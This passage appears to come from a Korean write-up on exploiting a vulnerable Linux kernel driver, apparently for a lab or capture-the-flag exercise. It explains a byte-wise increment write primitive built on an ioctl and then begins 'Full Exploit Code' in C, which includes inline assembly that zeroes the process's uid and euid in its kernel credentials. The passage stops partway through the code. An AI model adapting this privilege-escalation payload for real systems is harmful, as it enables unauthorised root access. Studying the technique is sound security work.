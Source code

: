 ```c
                        loopCount = chByte - orgByte;
                }

                for(count=0 ; count < loopCount; count++) {
                        // TODO Change this to ioctl
                        *(uint32_t*)(mem+i) += 1;
                        req.address = addr + i;
                        ioctl(fd, IOCTL_PARTIAL_WRITE, &req);
                }
        }
}
```

1차 프리미티브가 `0x11223344`의 값을 통으로 증가(`0x44444444`값을 만들기 위해 같은 메모리 주소에 `0x33221100`번 증가 연산)시켰다면, 2차 프리미티브는 `0x44`위치에 `0`번, `0x33`위치에 `0x11`번, `0x22`위치에 `0x22`번, `0x11`위치에 `0x33`번 연산을 수행한다.
`malloc()`을 통해 힙 메모리 영역에 원본 값을 쓰고, 커널 메모리 증가와 동시에 증가되도록 하여 계산을 도왔다.
`i`값이 4이하 (하위 4바이트만 증가)시키는 것은, 어차피 4번째 바이트(`0x1122334455667788`에서 `44` 부분)가 overflow되어 carry가 발생하면 뒤의 `0xffffffff********` 부분도 연쇄적으로 overflow되어 0이 되므로 연산에서 제외했다.

**Full Exploit Code**는 아래와 같다.
```c
/* partially-controlled write primitive trigger */
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include "drv.h"

void __attribute__((regparm(3))) payload() {
        asm(
                "pushq %rax;"                                   /* save Registers */
                "pushq %rcx;"
                "movq %rsp, %rax;"                              /* get SP */
                "movq $0xFFFFFFFFFFFFE000, %rcx;"               /* calc THREAD_SIZE */
                "andq %rcx, %rax;"                              /* calc thread_info */
                "movq (%rax), %rcx;"                            /* get task_struct */
                "movq 0x458(%rcx), %rax;"                       /* get real_cred */
                "movl $0, 0x04(%rax);"                          /* set  uid */
                "movl $0, 0x14(%rax);"                          /* set euid */
                "popq %rcx;"                                    /* restore Registers */
                "popq %rax;"
        );
}

void _write(int fd, uint64_t addr, uint64_t orgValue, uint64_t chValue) {
	struct drv_req req;
	uint64_t count;
	int i;
	uint8_t *mem = malloc(0x10);
	*(uint64_t *)mem = orgValue;

	for(i=0; i<4; i++) {
		int shifts = 8 * i;
		uint64_t target = addr << shifts;
		uint8_t orgByte = *(mem+i);
		uint8_t chByte  = ((chValue & (0xff << 8*i))>>8*i);
		uint8_t loopCount;
		int count;
		if(orgByte > chByte) {
			loopCount = (0x100 - orgByte) + chByte;
		} else {
```